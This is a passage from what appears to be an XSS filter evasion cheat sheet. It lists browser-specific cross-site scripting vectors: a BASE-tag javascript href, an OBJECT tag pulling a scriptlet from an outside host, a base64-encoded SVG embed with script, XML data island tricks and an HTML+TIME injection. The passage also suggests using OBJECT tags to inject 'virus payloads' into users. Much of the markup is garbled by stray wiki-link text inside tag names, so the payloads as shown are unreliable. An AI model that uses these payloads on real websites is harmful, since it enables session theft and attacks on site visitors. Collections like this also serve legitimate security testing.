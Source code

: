 
#### [[_content/dictionary#B|BASE]] Tag¶
(Works on IE in safe mode) This attack needs the // to comment out the next characters so you won't get a [[_content/dictionary#J|JavaScript]] error and your [[_content/dictionary#X|XSS]] tag will render. Also, this relies on the fact that many websites uses dynamically placed images like images/image.jpg rather than full paths. If the path includes a leading forward slash like /images/image.jpg, you can remove one slash from this vector (as long as there are two to begin the comment this will work):
<BASE [[_content/dictionary#H|HREF]]="javascript:alert('XSS');//">

#### [[_content/dictionary#O|OBJECT]] Tag¶
If the system allows objects, you can also inject virus payloads that can infect the users, etc with the [[_content/dictionary#A|APPLET]] tag. The linked file is actually an [[_content/dictionary#H|HTML]] file that can contain your [[_content/dictionary#X|XSS]]:
<OBJECT [[_content/dictionary#T|TYPE]]="text/x-scriptlet" [[_content/dictionary#D|DATA]]="http://xss.rocks/scriptlet.html"></OBJECT>

#### [[_content/dictionary#E|EMBED]] [[_content/dictionary#S|SVG]] Which Contains [[_content/dictionary#X|XSS]] Vector¶
This attack only works in Firefox:
<EMBED [[_content/dictionary#S|SRC]]="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" [[_content/dictionary#A|AllowScriptAccess]]="always"></EMBED>

(Thanks to nEUrOO for this one)
#### [[_content/dictionary#X|XML]] Data Island with [[_content/dictionary#C|CDATA]] Obfuscation¶
This [[_content/dictionary#X|XSS]] attack works only in IE:
<XML ID="xss"><I><B><[[_content/dictionary#I|IMG]] [[_content/dictionary#S|SRC]]="javascript:alert('XSS')"></B></I></XML>
<[[_content/dictionary#S|SPAN]] [[_content/dictionary#D|DATASRC]]="#xss" [[_content/dictionary#D|DATAFLD]]="B" [[_content/dictionary#D|DATAFORMATAS]]="[[_content/dictionary#H|HTML]]"></SPAN>

#### Locally hosted [[_content/dictionary#X|XML]] with embedded [[_content/dictionary#J|JavaScript]] that is generated using an XML data island¶
This attack is nearly the same as above, but instead it refers to a locally hosted (on the same server) XML file that will hold your [[_content/dictionary#X|XSS]] vector. You can see the result here:
<XML [[_content/dictionary#S|SRC]]="xsstest.xml" ID=I></XML>
<[[_content/dictionary#S|SPAN]] [[_content/dictionary#D|DATASRC]]=#I [[_content/dictionary#D|DATAFLD]]=C [[_content/dictionary#D|DATAFORMATAS]]=[[_content/dictionary#H|HTML]]></SPAN>

#### [[_content/dictionary#H|HTML]]+[[_content/dictionary#T|TIME]] in [[_content/dictionary#X|XML]]¶
This attack only works in IE and remember that you need to be between HTML and [[_content/dictionary#B|BODY]] tags for this to work:
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="[[_content/dictionary#X|XSS]]<[[_content/dictionary#S|SCRIPT]] [[_content/dictionary#D|DEFER]]>alert("XSS")</SCRIPT>">
</BODY></HTML>
